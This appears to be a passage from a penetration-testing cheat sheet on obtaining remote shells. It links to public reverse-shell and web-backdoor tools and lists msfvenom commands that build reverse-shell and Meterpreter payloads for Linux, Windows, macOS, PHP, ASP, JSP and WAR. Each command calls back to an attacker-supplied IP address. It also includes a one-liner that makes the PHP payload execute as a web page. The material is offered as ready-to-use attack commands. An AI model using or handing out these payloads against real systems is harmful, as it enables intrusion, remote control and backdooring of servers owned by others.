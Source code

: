 -   Perl Reverse Shell  
    [http://pentestmonkey.net/tools/web-shells/perl-reverse-shell](http://pentestmonkey.net/tools/web-shells/perl-reverse-shell)
 
-   PHP powered web browser Shell b374k with file upload etc.  
    [https://github.com/b374k/b374k](https://github.com/b374k/b374k)
 
-   Windows reverse shell - PowerSploit’s Invoke-Shellcode script and inject a Meterpreter shell
    https://github.com/PowerShellMafia/PowerSploit/blob/master/CodeExecution/Invoke-Shellcode.ps1
   
-   Web Backdoors from Fuzzdb
    https://github.com/fuzzdb-project/fuzzdb/tree/master/web-backdoors
 
-   Creating Meterpreter Shells with MSFVenom - http://www.securityunlocked.com/2016/01/02/network-security-pentesting/most-useful-msfvenom-payloads/
     
      *Linux*
     
      `msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf`
     
      *Windows*
     
      `msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe`
     
      *Mac*
 
      `msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f macho > shell.macho`
     
      **Web Payloads**
     
      *PHP*
     
      `msfvenom -p php/reverse_php LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php`
     
      OR
     
      `msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php`
     
      Then we need to add the <?php at the first line of the file so that it will execute as a PHP webpage:
     
      `cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php`
     
      *ASP*
 
      `msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp`
     
      *JSP*
 
      `msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.jsp`
     
      *WAR*
 
      `msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.war`
     